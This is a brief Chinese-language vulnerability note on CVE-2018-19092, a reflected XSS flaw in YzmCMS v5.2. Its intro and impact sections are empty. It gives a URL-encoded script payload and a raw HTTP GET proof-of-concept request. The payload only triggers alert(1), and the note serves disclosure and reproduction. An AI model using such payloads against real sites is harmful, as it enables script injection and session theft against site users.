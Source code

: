 （CVE-2018-19092）YzmCMS v5.2 xss漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

<http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html>

XSS payload:
[http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1](http://192.168.1.40/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3Ealert(1)\<%2fscript\>r6qt2=1)

POC:

    GET /search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1 HTTP/1.1
    Host: www.0-sec.org
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Referer: http://192.168.1.40/search/index/archives/pubtime/1526387722.html
    Cookie: PHPSESSID=u0bh5qnr84qsu9aa0oj8vpkuk
